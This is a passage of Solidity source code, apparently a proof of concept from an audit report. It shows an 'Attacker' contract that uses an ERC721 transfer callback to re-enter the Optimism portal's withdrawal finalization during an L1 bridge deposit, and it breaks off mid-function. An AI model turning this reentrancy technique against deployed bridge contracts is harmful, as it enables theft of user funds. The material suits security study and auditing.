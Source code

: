 ```solidity

    constructor() ERC721("Test", "TST") {}

    function mint(address to, uint256 tokenId) public {
        _mint(to, tokenId);
    }

    function transferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override {
        // Some callback before a transfer.
        if (from.supportsInterface(type(ISomeCommonContract).interfaceId)) {
            ISomeCommonContract(from).onERC721Transfer(from, to, tokenId);
        }

        super.transferFrom(from, to, tokenId);
    }
}

contract Attacker is ISomeCommonContract, IERC721Receiver, ERC165 {
    OptimismPortal internal portal;
    ERC721Callback internal localToken;
    address internal remoteToken;
    L1ERC721Bridge internal bridge;
    Types.WithdrawalTransaction _tx;

    constructor(
        OptimismPortal _portal,
        ERC721Callback _localToken,
        address _remoteToken,
        L1ERC721Bridge _bridge
    ) {
        portal = _portal;
        localToken = _localToken;
        remoteToken = _remoteToken;
        bridge = _bridge;
    }

    function start(uint256 tokenId, Types.WithdrawalTransaction memory __tx) public {
        _tx = __tx;

        bridge.bridgeERC721To(
            address(localToken),
            remoteToken,
            address(this),
            tokenId,
            1234,
            hex""
        );
    }

    // The function that will be called before token transfer.
    function onERC721Transfer(
        address,
        address,
        uint256 tokenId
    ) external {
        assert(bridge.deposits(address(localToken), remoteToken, tokenId) == true);

        portal.finalizeWithdrawalTransaction(_tx);

```